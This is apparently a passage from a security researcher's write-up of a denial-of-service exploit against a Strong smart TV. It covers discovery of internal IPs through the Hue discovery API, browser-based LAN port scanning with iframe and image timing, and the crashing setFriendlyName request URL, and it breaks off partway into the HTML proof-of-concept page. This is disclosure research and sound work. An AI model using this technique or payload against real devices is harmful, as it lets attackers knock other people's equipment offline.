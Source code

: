 ```
vavkamil@xexexe:~$ curl -v -s https://discovery.meethue.com/
...
< HTTP/2 200 
< access-control-allow-credentials: true
< access-control-allow-headers: Origin, X-Requested-With, Content-Type, Accept, X-Token, X-Bridge
< access-control-allow-methods: GET, OPTIONS
< access-control-allow-origin: *
< cache-control: no-cache
< content-type: application/json; charset=utf-8
< content-length: 63
< via: 1.1 google
< alt-svc: clear
< 
[{"id":"ecb5fafffe128375","internalipaddress":"10.10.10.253"}]
* Connection #0 to host discovery.meethue.com left intact
```

After discovering the internal IP range, we can leverage the fact that there is always a service listening on port 4123 and do a port scan for that. Thanks to the lack of X-Frame-Options, we can try to load each IP:port pair in an iframe. Unfortunately, the connection to port 4123 will hang out, but it will eventually load after 1:30 minutes (at least in Mozilla Firefox). We can either wait or use a timer on the iframe to detect that it's loading.

```
vavkamil@xexexe:~$ curl http://10.10.10.249:4123
curl: (1) Received HTTP/0.9 when not allowed

vavkamil@xexexe:~$ telnet 10.10.10.249 4123
Trying 10.10.10.249...
Connected to 10.10.10.249.
Escape character is '^]'.

<?xml version="1.0" encoding="utf-8"?><root><response>true</response></root>
```

Once we know the smart TV's internal IP address, we have to scan all of its dynamic ports to find the *Media Renderer Administration*. I used the same technique, which is popular in the [Router Exploit Kits](https://vavkamil.cz/2019/12/11/an-introduction-to-the-router-exploit-kits/), loading the admin panel logo in the `<img>` tag. Then it's just a matter of sending one unauthenticated GET request to cause a *Denial of Service* until the power cord is unplugged:

```
http://{IP:PORT}/web/admin/setFriendlyName?name=%hostname%
```

The [Proof of Concept code](https://gist.github.com/vavkamil/1b1c14702198dd721c4d478ac15d0ac0) is very messy and could be optimized to be much faster, but it works :)

```javascript
<html>
<head>
<title></title>
</head>
<body>
<h1>Strong TV DoS exploit</h1>
<h2>Proof of Concept</h2>
<label for="internal_ip">Any internal IP:</label>
<input type="text" name="internal_ip" id="internal_ip" autocomplete="off" onchange="get_tv_ip()">
<br><br>
<label for="tv_ip">Smart TV IP:</label>
<input type="text" name="tv_ip" id="tv_ip" autocomplete="off" onchange="scan_tv_ports()">
<br><br>
<label for="tv_port">Smart TV Port:</label>
<input type="text" name="tv_port" id="tv_port" autocomplete="off"> <em>This may take a couple of minutes</em>
<br><br>
<label for="web_admin">Media Renderer Administration:</label>
<input type="text" name="web_admin" id="web_admin" autocomplete="off">
<br><br>
<label for="exploit_code">Exploit code:</label>
```